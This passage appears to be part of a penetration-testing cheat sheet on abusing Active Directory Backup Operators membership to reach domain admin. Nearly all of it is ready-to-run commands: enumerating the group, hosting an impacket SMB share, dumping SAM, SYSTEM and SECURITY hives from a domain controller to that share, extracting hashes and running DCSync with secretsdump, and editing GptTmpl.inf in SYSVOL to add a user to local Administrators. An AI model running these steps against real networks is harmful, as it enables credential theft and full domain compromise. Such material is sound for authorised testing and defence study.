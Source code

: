 ```
- They also have the permissions needed to replace files (including operating system files) on domain controllers.

#### Get members of the backup operators group
```
Get-DomainGroupMember "Backup Operators" | Select-Object Membername
```

### BackupOperatorToDa.exe
#### Host a public SMB share
```
python3 /opt/impacket/examples/smbserver.py share <DIRECTORY FOR SHARE> -smb2support
```

#### Retrieve SAM, SYSTEM, and SECURITY HIVE
- Run it as the "Backup Operator" user
- https://github.com/mpgn/BackupOperatorToDA
```
.\BackupOperatorToDA.exe -t \\<DC FQDN> -u <USER> -p <PASSWORD> -d <DOMAIN> -o \\<IP>\<SHARE>\
```

#### Run secretsdump.py to extract machine account hash
```
secretsdump.py LOCAL -system <DIRECTORY FOR SHARE>/SYSTEM -security <DIRECTORY FOR SHARE>/SECURITY -sam <DIRECTORY FOR SHARE>/SAM
````

#### Run DCSync with the computer account hash
```
secretsdump.py '<DOMAIN>/<DC COMPUTERACCONT NAME>$'@<DC FQDN> -hashes <LM HASH>:<NTLM HASH>
```

### GptTmpl.inf
- Requires to be run from high priv shell on machine within the domain, as the context of the backup operator account.

#### Download GptTmpl.inf
- Downloads to `C:\users\public\GptTmpl.inf`
```
robocopy "\\<FQDN DC>\sysvol\<DOMAIN>\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit" "C:\users\public"  GptTmpl.inf /b
```

#### Get user sid
- This sid wil get added to the local admins group
```
Get-DomainUser | Select-Object samaccountname, objectsid
```

#### Edit GptTmpl.inf
- Add the following inbetween `[Version]` and `[Privilege Rights]`
```
[Group Membership]
*<SID>__Memberof = *S-1-5-32-544
*<SID>__Members =
```

Example:
```
...snip...
[Version]
signature="$CHICAGO$"
Revision=1
[Group Membership]
*S-1-5-21-997099906-443949041-4154774969-1121__Memberof = *S-1-5-32-544
*S-1-5-21-997099906-443949041-4154774969-1121__Members =
````